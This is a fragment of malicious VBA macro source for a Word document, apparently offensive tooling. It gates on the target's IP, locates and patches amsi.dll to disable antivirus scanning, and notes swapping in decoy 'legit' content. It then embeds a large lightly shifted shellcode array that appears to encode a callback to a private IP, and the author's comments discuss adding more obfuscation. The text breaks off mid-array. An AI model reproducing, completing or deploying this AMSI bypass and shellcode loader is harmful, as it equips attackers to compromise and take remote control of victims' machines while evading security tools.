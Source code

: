 ```js
 If ipcheck Then
 Else
    Exit Function
 End If
 'Dynamically resolve amsi.dll
 StrFile = Dir("c:\windows\system32\a?s?.d*")
 'Call architecture function to determine if we are in 32 bit or 64 bit word. 64 bit returns True.
 Is64 = arch()
 'Call amsi check function to determine if amsi.dll is loaded into Word. This is the case in word 2019+. Returns True if Amsi is found.
 check = amcheck(StrFile)
 'This portion to delete document body and replace with auto text (the "legit" content)
 'ActiveDocument.Content.Select
 'Selection.Delete
 'ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
 'If amsi is found, call amsi patching function.  Pass architecture of Word as additional arg to function.
 If check Then
     patch StrFile, Is64
 End If
 'Include shellcode for both x86 and x64.
 'also no encryption routine on this shellcode, might have to look into something like xor or rot or caeser cipher to strengten it
 If Is64 Then
    buf = Array(49, 125, 184, 25, 37, 29, 1, 53, 53, 53, 118, 134, 118, 133, 135, 125, 102, 7, 154, 125, 192, 135, 149, 125, 192, 135, 77, 125, 192, 135, 85, 134, 139, 125, 68, 236, 127, 127, 125, 192, 167, 133, 130, 102, 254, 125, 102, 245, 225, 113, _
	150, 177, 55, 97, 85, 118, 246, 254, 66, 118, 54, 246, 23, 34, 135, 125, 192, 135, 85, 118, 134, 192, 119, 113, 125, 54, 5, 155, 182, 173, 77, 64, 55, 68, 186, 167, 53, 53, 53, 192, 181, 189, 53, 53, 53, 125, 186, 245, 169, 156, _
	125, 54, 5, 133, 192, 125, 77, 121, 192, 117, 85, 126, 54, 5, 24, 139, 130, 102, 254, 125, 52, 254, 118, 192, 105, 189, 125, 54, 11, 125, 102, 245, 118, 246, 254, 66, 225, 118, 54, 246, 109, 21, 170, 38, 129, 56, 129, 89, 61, 122, _
	110, 6, 170, 13, 141, 121, 192, 117, 89, 126, 54, 5, 155, 118, 192, 65, 125, 121, 192, 117, 81, 126, 54, 5, 118, 192, 57, 189, 118, 141, 125, 54, 5, 118, 141, 147, 142, 143, 118, 141, 118, 142, 118, 143, 125, 184, 33, 85, 118, 135, _
	52, 21, 141, 118, 142, 143, 125, 192, 71, 30, 128, 52, 52, 52, 146, 125, 102, 16, 136, 126, 243, 172, 158, 163, 158, 163, 154, 169, 53, 118, 139, 125, 190, 22, 126, 252, 247, 129, 172, 91, 60, 52, 10, 136, 136, 125, 190, 22, 136, 143, _
	130, 102, 245, 130, 102, 254, 136, 136, 126, 239, 111, 139, 174, 220, 53, 53, 53, 53, 52, 10, 29, 67, 53, 53, 53, 102, 110, 103, 99, 102, 107, 109, 99, 105, 110, 99, 107, 107, 53, 143, 125, 190, 246, 126, 252, 245, 240, 54, 53, 53, _
	130, 102, 254, 136, 136, 159, 56, 136, 126, 239, 140, 190, 212, 251, 53, 53, 53, 53, 52, 10, 29, 8, 53, 53, 53, 100, 120, 161, 155, 101, 109, 138, 157, 148, 121, 130, 150, 169, 119, 107, 172, 123, 175, 101, 171, 125, 137, 134, 173, 151, _
	155, 125, 124, 119, 108, 175, 148, 142, 161, 133, 119, 106, 134, 127, 106, 106, 134, 136, 134, 138, 170, 109, 158, 132, 131, 109, 153, 154, 105, 137, 165, 125, 124, 163, 125, 143, 159, 155, 128, 150, 158, 164, 133, 109, 121, 160, 129, 135, 134, 157, _
	124, 120, 105, 139, 106, 163, 164, 128, 158, 156, 143, 165, 158, 141, 150, 166, 136, 109, 148, 162, 142, 124, 142, 109, 155, 153, 173, 174, 98, 109, 148, 159, 142, 135, 106, 125, 150, 167, 130, 143, 167, 152, 141, 119, 134, 132, 124, 167, 102, 162, _
	159, 160, 123, 126, 169, 163, 110, 131, 107, 155, 159, 109, 103, 165, 153, 168, 174, 138, 161, 105, 109, 165, 105, 142, 163, 98, 158, 173, 173, 162, 172, 125, 133, 164, 170, 107, 173, 139, 155, 153, 160, 162, 122, 170, 125, 168, 122, 137, 133, 157, _
	158, 155, 123, 158, 167, 133, 135, 175, 170, 134, 107, 156, 150, 121, 165, 133, 168, 155, 119, 148, 131, 132, 102, 106, 126, 165, 125, 110, 160, 120, 150, 134, 125, 157, 142, 53, 125, 190, 246, 136, 143, 118, 141, 130, 102, 254, 136, 125, 237, 53, _
	103, 221, 185, 53, 53, 53, 53, 133, 136, 136, 126, 252, 247, 32, 138, 99, 112, 52, 10, 125, 190, 251, 159, 63, 148, 125, 190, 38, 159, 84, 143, 135, 157, 181, 104, 53, 53, 126, 190, 21, 159, 57, 118, 142, 126, 239, 170, 123, 211, 187, _
```